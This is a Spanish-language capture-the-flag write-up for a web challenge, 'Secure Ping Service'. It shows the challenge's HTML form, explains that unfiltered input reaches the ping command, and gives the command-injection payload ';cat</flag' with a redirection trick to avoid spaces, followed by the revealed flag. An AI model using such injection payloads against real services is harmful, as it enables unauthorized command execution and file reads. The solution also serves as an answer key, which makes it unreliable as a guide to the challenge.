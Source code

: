 Challenge: Secure Ping Service
Category: Web
Points: 20

Un administrador de sistemas ha desarrollado un programa para hacer ping de forma segura, pero nosotros, como hackers, tenemos nuestras dudas sobre su verdadera seguridad. Estamos analizando detenidamente el programa en busca de posibles vulnerabilidades que puedan ser explotadas.

Flag: `LetsCTF{N0t_s0_s3CuR3_M4te}`

Solución:

La página web consiste en un formulario que permite hacer ping a una dirección IP o un dominio. Al hacer ping a una dirección IP o dominio, el programa devuelve la salida del comando `ping` en la página web. Si marcamos el check de debug, el programa nos muestra también el comando que se ha ejecutado.

```html
<!doctype html>
<html lang="en">

<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Web 50 @ Shellmates Infinite CTF 2k20</title>
    <link rel="stylesheet" href="style.css">
    <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon">
    <link rel="icon" href="/favicon.ico" type="image/x-icon">
</head>

<body style="color: white;">
    <div class="splash">
        <h1 class="splash-head">Shellmates Secure Ping Service</span> ?</h1>
        <h2 style="background-color: red;">Try to read /flag file located in the / directory</h2>
        <p>Make sure you check the debug mode to get an idea of whats happening to your input</p>
        <form method="POST" class="pure-form">
            <input name="command" type="text" class="pure-input-1" placeholder="127.0.0.1" id="ip" />
            <br>
            Debug Mode <input type="checkbox" name="debug" class="pure-checkbox" style="display: inline;">
            <br>
            <button type="submit" name="ping" class="pure-button pure-button-primary button-large">Ping!</button>
        </form>
        <h3>Results</h3>
    </div>
</body>

</html>
```

Por ejemplo, si hacemos ping a 127.0.0.1, la salida obtenida es:

```sh
ping -c 1 127.0.0.1

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.019 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.019/0.019/0.019/0.000 ms
```

Nos damos cuenta de que el programa está ejecutando el comando `ping` sin filtrar la entrada del usuario. Por lo tanto, podemos inyectar comandos en el campo de entrada para ejecutar comandos arbitrarios en el servidor. Por la pista que nos da el programa, sabemos que el archivo flag se encuentra en el directorio raíz. Es decir, podemos leer el contenido del archivo flag inyectando el comando `cat /flag` en el campo de entrada.

Para obtener la flag, podemos inyectar el siguiente comando en el campo de entrada:

```sh
;cat</flag
```

El caracter `<` se utiliza para forzar un espacio en blanco en el comando `cat` para que el comando se ejecute correctamente. Al enviar el comando, obtenemos la siguiente salida:

```sh
ping -c 1 ;cat</flag

LetsCTF{N0t_s0_s3CuR3_M4te}
```
